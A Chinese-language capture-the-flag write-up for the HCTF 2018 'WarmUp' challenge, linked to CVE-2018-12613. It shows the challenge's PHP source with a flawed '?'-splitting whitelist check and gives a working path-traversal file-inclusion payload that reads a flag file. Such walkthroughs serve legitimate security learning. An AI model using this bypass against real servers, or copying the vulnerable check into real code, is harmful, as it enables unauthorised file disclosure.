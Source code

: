 # [HCTF 2018]WarmUp
TAG:PHP phpmyadmin4.8.1远程文件包含漏洞(CVE-2018-12613)
## 解题过程：  
![20210108101447](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108101447.png)  
查看入口源代码：  
![20210108103319](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108103319.png)  
发现提示：```source.php```  
![20210108103405](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108103405.png)  
```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];//白名单
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );//需要绕过
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])//存在file且不为空
        && is_string($_REQUEST['file'])//file为字符串
        && emmm::checkFile($_REQUEST['file'])//导入进行检测
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```
  
访问一下白名单里的hint.php  
![20210108103847](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108103847.png)  
有一个提示，flag放在ffffllllaaaagggg文件中  
继续进行代码审计，这里有一个文件包含漏洞  
```
$_page = mb_substr( //获取page中从开头到'?'中间的字符
       $_page,
       0,
       mb_strpos($_page . '?', '?')//查找到'?'在字符串中第一次出现的位置
);
```
![20210108103949](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108103949.png)  
![20210108104037](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108104037.png)  
Payload:```index.php?file=hint.php?../../../../../ffffllllaaaagggg```  
![20210108104146](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108104146.png)  